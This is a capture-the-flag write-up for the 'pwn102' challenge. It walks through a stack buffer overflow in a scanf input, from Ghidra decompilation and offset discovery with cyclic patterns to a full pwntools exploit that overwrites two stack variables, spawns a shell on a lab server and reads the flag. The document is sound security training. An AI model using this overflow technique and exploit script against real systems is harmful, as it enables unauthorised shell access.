

Let's download the task file



Let's decompile the binary with ghidra

```c
void main(void){

  undefined local_78 [104];
  int local_10;
  int local_c;
  
  setup();
  banner();
  local_c = 0xbadf00d;
  local_10 = -0x11e2153;
  printf("I need %x to %x\nAm I right? ",0xbadf00d,0xfee1dead);
  __isoc99_scanf(&DAT_00100b66,local_78);
  if ((local_c == 0xc0ff33) && (local_10 == 0xc0d3)) {
    printf("Yes, I need %x to %x\n",0xc0ff33,0xc0d3);
    system("/bin/sh");
    return;
  }
  puts("I\'m feeling dead, coz you said I need bad food :(");
                    /* WARNING: Subroutine does not return */
  exit(0x539);

}
```

The binary checks if `local_c = 0xc0ff33` and `local_10 = 0xc0d3`. but initial they are set to this

```c
local_c = 0xbadf00d;
local_10 = -0x11e2153;
```

So basically we want to overwrite the variables in the stack and assign them as follows
```c
local_c = 0xc0ff33;
local_10 = 0xc0d3;
```

Let's check the security protections with checksec

```shell
pl4int3xt@archlinux ~/D/p/pwn102> checksec --file=pwn102.pwn102 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   73 Symbols	 No	pwn102.pwn102
```

We disassemble main function and notice the first compare at `0x0000000000000959 <+91>:	cmp    DWORD PTR [rbp-0x4],0xc0ff33` 

```shell
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000000008fe <+0>:	push   rbp
   0x00000000000008ff <+1>:	mov    rbp,rsp
   0x0000000000000902 <+4>:	sub    rsp,0x70
   0x0000000000000906 <+8>:	mov    eax,0x0
   0x000000000000090b <+13>:	call   0x88a <setup>
   0x0000000000000910 <+18>:	mov    eax,0x0
   0x0000000000000915 <+23>:	call   0x8eb <banner>
   0x000000000000091a <+28>:	mov    DWORD PTR [rbp-0x4],0xbadf00d
   0x0000000000000921 <+35>:	mov    DWORD PTR [rbp-0x8],0xfee1dead
   0x0000000000000928 <+42>:	mov    edx,DWORD PTR [rbp-0x8]
   0x000000000000092b <+45>:	mov    eax,DWORD PTR [rbp-0x4]
   0x000000000000092e <+48>:	mov    esi,eax
   0x0000000000000930 <+50>:	lea    rdi,[rip+0x212]        # 0xb49
   0x0000000000000937 <+57>:	mov    eax,0x0
   0x000000000000093c <+62>:	call   0x730 <printf@plt>
   0x0000000000000941 <+67>:	lea    rax,[rbp-0x70]
   0x0000000000000945 <+71>:	mov    rsi,rax
   0x0000000000000948 <+74>:	lea    rdi,[rip+0x217]        # 0xb66
   0x000000000000094f <+81>:	mov    eax,0x0
   0x0000000000000954 <+86>:	call   0x750 <__isoc99_scanf@plt>
   0x0000000000000959 <+91>:	cmp    DWORD PTR [rbp-0x4],0xc0ff33
   0x0000000000000960 <+98>:	jne    0x992 <main+148>
   0x0000000000000962 <+100>:	cmp    DWORD PTR [rbp-0x8],0xc0d3
   0x0000000000000969 <+107>:	jne    0x992 <main+148>
   0x000000000000096b <+109>:	mov    edx,DWORD PTR [rbp-0x8]
   0x000000000000096e <+112>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000000971 <+115>:	mov    esi,eax
   0x0000000000000973 <+117>:	lea    rdi,[rip+0x1ef]        # 0xb69
   0x000000000000097a <+124>:	mov    eax,0x0
   0x000000000000097f <+129>:	call   0x730 <printf@plt>
   0x0000000000000984 <+134>:	lea    rdi,[rip+0x1f4]        # 0xb7f
   0x000000000000098b <+141>:	call   0x720 <system@plt>
   0x0000000000000990 <+146>:	jmp    0x9a8 <main+170>
   0x0000000000000992 <+148>:	lea    rdi,[rip+0x1ef]        # 0xb88
   0x0000000000000999 <+155>:	call   0x710 <puts@plt>
   0x000000000000099e <+160>:	mov    edi,0x539
   0x00000000000009a3 <+165>:	call   0x760 <exit@plt>
   0x00000000000009a8 <+170>:	leave
   0x00000000000009a9 <+171>:	ret
End of assembler dump.
pwndbg>
```

we run cyclic 200 and put our break point at `0x0000000000000959` which is the first compare to get the offset

```shell
pwndbg> b *0x0000555555400959
Breakpoint 1 at 0x555555400959
pwndbg> cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/pwn102/pwn102.pwn102 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102          

I need badf00d to fee1dead
Am I right? aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

Breakpoint 1, 0x0000555555400959 in main ()
```

Let's look at the values that overflowed and overwrote the `$rbp - 4` register to get the offset

```shell
pwndbg> x/s $rbp-4
0x7fffffffe65c:	"aaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
pwndbg> cyclic -l aaaaoaaa
Finding cyclic pattern of 8 bytes: b'aaaaoaaa' (hex: 0x616161616f616161)
Found at offset 108
```

We need to overwrite `$rbp - 4` with `0xc0ff33` and `$rbp - 8` with `0xc0d3`. We need also to know the offsets of both registers. If the offset of `$rbp-4` is `108` the offset of `$rbp-8` will be `104`

```shell
$rbp-4 = 108
$rbp-8 = 104
```

Let's create a python script to overwrite those variables and get a shell

```python
import sys
from pwn import *
from struct import *

# Set up pwntools for the correct architecture
exe = './pwn102.pwn102'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Start the executable
io = start()

# How many bytes to the instruction pointer (RIP)?
padding = 104

rbp_8 = pack("<I", 0xc0d3)
rbp_4 = pack("<I", 0xc0ff33)

payload = flat(
    asm('nop') * padding,
    rbp_8,
    rbp_4
)

write('payload', payload)

# Send the payload
io.sendlineafter(b'?', payload)

# Receive the flag
io.interactive()
```

Let's run the code using the remote server and the provided port to get a shell and the flag

```shell
pl4int3xt@archlinux ~/D/p/pwn102> python3 pwn102.py REMOTE 10.10.31.35 9002
[+] Opening connection to 10.10.31.35 on port 9002: Done
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
    nop
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-iy_hv3rs/step2 /tmp/pwn-asm-iy_hv3rs/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-iy_hv3rs/step3 /tmp/pwn-asm-iy_hv3rs/step4
[DEBUG] Received 0x110 bytes:
    00000000  20 20 20 20  20 20 20 e2  94 8c e2 94  ac e2 94 90  │    │   ·│····│····│
    00000010  e2 94 ac e2  94 80 e2 94  90 e2 94 ac  20 e2 94 ac  │····│····│····│ ···│
    00000020  e2 94 ac 20  e2 94 ac e2  94 8c e2 94  80 e2 94 90  │··· │····│····│····│
    00000030  e2 94 8c e2  94 80 e2 94  90 e2 94 ac  e2 94 8c e2  │····│····│····│····│
    00000040  94 80 e2 94  8c e2 94 ac  e2 94 90 e2  94 8c e2 94  │····│····│····│····│
    00000050  80 e2 94 90  0a 20 20 20  20 20 20 20  20 e2 94 82  │····│·   │    │ ···│
    00000060  20 e2 94 9c  e2 94 ac e2  94 98 e2 94  94 e2 94 ac  │ ···│····│····│····│
    00000070  e2 94 98 e2  94 9c e2 94  80 e2 94 a4  e2 94 9c e2  │····│····│····│····│
    00000080  94 80 e2 94  a4 e2 94 82  20 20 e2 94  9c e2 94 b4  │····│····│  ··│····│
    00000090  e2 94 90 e2  94 82 e2 94  82 e2 94 82  e2 94 9c e2  │····│····│····│····│
    000000a0  94 a4 20 0a  20 20 20 20  20 20 20 20  e2 94 b4 20  │·· ·│    │    │··· │
    000000b0  e2 94 b4 e2  94 94 e2 94  80 20 e2 94  b4 20 e2 94  │····│····│· ··│· ··│
    000000c0  b4 20 e2 94  b4 e2 94 b4  20 e2 94 b4  e2 94 94 e2  │· ··│····│ ···│····│
    000000d0  94 80 e2 94  98 e2 94 b4  20 e2 94 b4  e2 94 b4 20  │····│····│ ···│··· │
    000000e0  e2 94 b4 e2  94 94 e2 94  80 e2 94 98  0a 20 20 20  │····│····│····│·   │
    000000f0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 70 77  │    │    │    │  pw│
    00000100  6e 20 31 30  32 20 20 20  20 20 20 20  20 20 20 0a  │n 10│2   │    │   ·│
    00000110
[DEBUG] Received 0x28 bytes:
    b'\n'
    b'I need badf00d to fee1dead\n'
    b'Am I right? '
[DEBUG] Sent 0x71 bytes:
    00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000060  90 90 90 90  90 90 90 90  d3 c0 00 00  33 ff c0 00  │····│····│····│3···│
    00000070  0a                                                  │·│
    00000071
[*] Switching to interactive mode
 [DEBUG] Received 0x1b bytes:
    b'Yes, I need c0ff33 to c0d3\n'
Yes, I need c0ff33 to c0d3
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x19 bytes:
    b'flag.txt\n'
    b'pwn102\n'
    b'pwn102.c\n'
flag.txt
pwn102
pwn102.c
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x22 bytes:
    b'THM{REDACTED..}\n'
THM{REDACTED..}
$
```